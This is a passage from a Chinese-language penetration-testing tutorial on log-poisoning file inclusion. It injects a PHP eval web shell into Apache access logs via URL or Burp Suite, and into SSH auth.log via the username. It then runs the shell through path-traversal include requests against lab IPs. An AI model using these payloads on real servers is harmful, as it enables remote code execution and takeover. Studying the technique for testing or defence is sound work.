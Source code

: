 ##### 6.2.1、中间件日志文件包含

中间件开启了访问日志记录功能，会访问日志写入到日志文件中。

访问http://192.168.1.2/xxx/index.php

发现日志文件有以下的内容

```
[root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:31:20 +0800] "GET /xxx/index.php HTTP/1.1" 200 86....
```

中间件日志会记录访问者的IP地址、访问时间、访问路径、返回状态码等等。

由于日志记录访问路径，因此可以由此注入恶意代码

http://www.abc.com/xxx/<?php @eval($_POST['shell']);?>

查看日志如下

```
[root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:35:23 +0800] "GET /xxx/%3C?php @eval($_POST['shell']);?%3E HTTP/1.1" 404 826....
```

发现成功写入

但是浏览器会对URL进行URL编码，导致代码写入日志不能正常使用

因此可以使用burpsuite抓包写入，再次查看日志内容

```
[root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:37:33 +0800] "GET /xxx/<?php @eval($_POST['shell']);?> HTTP/1.1" 404 302....
```

之后要执行文件包含，猜测日志文件的位置--常见的中间件日志文件都有默认的存储路径，比如Apache的中间件日志文件存在/var/log/httpd/目录下，文件名叫access_log

输入测试语句http://www.abc.com/xxx/file.php?file=../../../var/log/httpd/access_log，同时post传入shell=phpinfo();

即可执行木马显示phpinfo内容

##### 6.2.2、SSH日志文件包含

**利用方式**类似，如下

先将恶意代码写入文件：

SSH如果开启了日志记录的功能，那么会将ssh的连接日志记录到ssh日志文件当中，将连接的用户名设置成恶意代码，用命令连接服务器192.168.1.1的ssh服务
`ssh "<?php @eval($_POST['shell']);?>"@192.168.1.1`

查看日志文件/var/log/auth.log，发现成功写入

之后使用文件包含日志文件

输入测试语句http://192.168.1.1/xxx/file.php?file=../../../var/log/auth.log，同时post传入shell=phpinfo();

即可执行木马显示phpinfo内容

